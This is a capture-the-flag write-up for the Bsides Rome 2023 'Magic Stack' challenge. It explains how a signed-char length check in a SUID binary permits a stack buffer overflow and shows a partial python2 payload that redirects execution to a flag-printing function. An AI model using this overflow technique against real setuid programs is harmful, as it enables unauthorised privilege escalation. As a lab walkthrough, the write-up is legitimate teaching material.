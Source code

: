 # Challenge: Magic Stack

## Category: PWN

This challenge is part of the '_Bsides Rome 2023_' CTF event hosted by pwnx.io. I blooded for my team: 'ARESTeamITA'.

The challenge let you connet via ssh to a vulnerable machine that has a SUID custom binary. The binary, called 'magic', let you retrieve the flag saved
in another account /home folder as /home/flag.txt.

```bash
ssh user@<CHALLENGE_IP>  # ssh connection
scp user@<CHALLENGE_IP>:/usr/bin/magic ./magic
```

The file was a 64-bit stripped binary as you can see from the output of the ```file``` command:
```
magic: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, 
interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=061c4f61b2214e204f2392bf84a63723dd3973ac, for GNU/Linux 3.2.0, stripped
```

A stripped binary is harder to debug and read but for this challenge gdb and Ghidra are enough.

At this point is important to be precise and note important informations at every step.

+ Step 1: Find the main() function 

For every executable there is an 'entry point' or place where the execution code starts. 
In C/C++ compiled binary the entry point calls main() and prepare the environment using  ```__libc_start_main ```.
This step can be done via Ghidra (find the function) or via gdb that let you know the address 
```
(gdb) info files
	Entry point: 0x401150
```

Now we can read the main function:
```c
undefined8 FUN_0040129b(int param_1,long param_2)

{
  undefined local_26 [10];
  byte local_1c [10];
  byte local_12;
  byte local_11;
  FILE *local_10;
  
  setuid(1000);
  setgid(1000);
  if (param_1 < 2) {
    puts("An argument is required.");
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  local_10 = fopen(*(char **)(param_2 + 8),"rb");
  if (local_10 == (FILE *)0x0) {
    puts("[-] Provide a file as input");
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  memset(local_1c,0,10);
  fread(local_1c,4,1,local_10);
  local_11 = local_1c[0];
  if ('\n' < (char)local_1c[0]) {
    perror("magic size > MAX_MAGIC_SZ");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  local_12 = local_1c[0];
  memset(local_26,0,10);
  fread(local_26,(ulong)local_12,1,local_10);
  printf("Magic value: %s\n",local_26);
  return 0;
}
```

A beautified version is :

![beautified](/ctf/images/magic_stack_main.png)

The main function accept as first arg a file path that is opened by ```fopen()``` function. An array of 10 char (renamed 'file_content') read 10 bytes from the FILE stream 
and checks if the first char is lower than '\n' char.

A char is a byte and can be represented as decimal, range from (-127,128), in particular '\n' is 0xa or 10 in decimal.

If the previous check is passed the value of the first char read is passed as 'size' argument of the next ```fread()```. *There is something that the attacker can control!*

+ Step 2: Identify how to read the flag

In the 'magic' binary there is another function that reads and prints the flag file:
```c
void FUN_00401236(void) {
  char local_48 [56];
  FILE *local_10;
  
  memset(local_48,0,0x32);
  local_10 = fopen("/home/pwnx/flag.txt","r");
  fread(local_48,0x27,1,local_10);
  puts(local_48);
  return;
}
```

This function is inside our file, we know its address - 0x401236 - but main() never invoke it. The attacker has to change the execution flow.

Note: the address of a function can be obtained via Ghidra or via gdb by manually exploring the code as the binary is stripped

```
(gdb) x/15i 0x401236
   0x401236:	endbr64 
   0x40123a:	push   rbp
   0x40123b:	mov    rbp,rsp
   0x40123e:	sub    rsp,0x40
   0x401242:	lea    rax,[rbp-0x40]
   0x401246:	mov    edx,0x32
   0x40124b:	mov    esi,0x0
   0x401250:	mov    rdi,rax
   0x401253:	call   0x4010f0 <memset@plt>
   0x401258:	lea    rsi,[rip+0xda5]        # 0x402004
   0x40125f:	lea    rdi,[rip+0xda0]        # 0x402006
   0x401266:	call   0x401110 <fopen@plt>
   0x40126b:	mov    QWORD PTR [rbp-0x8],rax
   0x40126f:	mov    rdx,QWORD PTR [rbp-0x8]
   0x401273:	lea    rax,[rbp-0x40]
(gdb) x/2s 0x402004
0x402004:	"r"
0x402006:	"/home/pwnx/flag.txt"
```

+ Step 3: Exploit

The attacker goal now is to use a big number over the second buffer populated by the second ```fread()```.
The tricky part is not difficult, if the the first char overflow 128 is converted as signed int in a negative number that pass the check against '\n'.

For this reason i used '\xff' char = 255 as the first byte of my payload file.

'\n' char is interpreted as 10 and '\xff' as -127 and the ```if('\n' < file_content[0])``` condition is False and the flow can continue.

Now its possible to read a lot of chars, way more than the buffer and override the Istruction Pointer to call the 'read flag' function.
It's enough to create a long strings with the function address or you can calculate the correct offset.


```bash
# no offset
# complete the exploit by yourself now - use \xff
python2 -c 'print [NOW_COMPLETE_PAYLOAD] + "6\x12@\x00\x00\x00\x00\x00" * 100' > runme

/usr/bin/magic <PAYLOAD_FILE>

# calculate offset
msf-pattern_create -l 150
msf-pattern_offset -q <VALUE>
```

![flag](/ctf/images/magic_stack_flag.png)
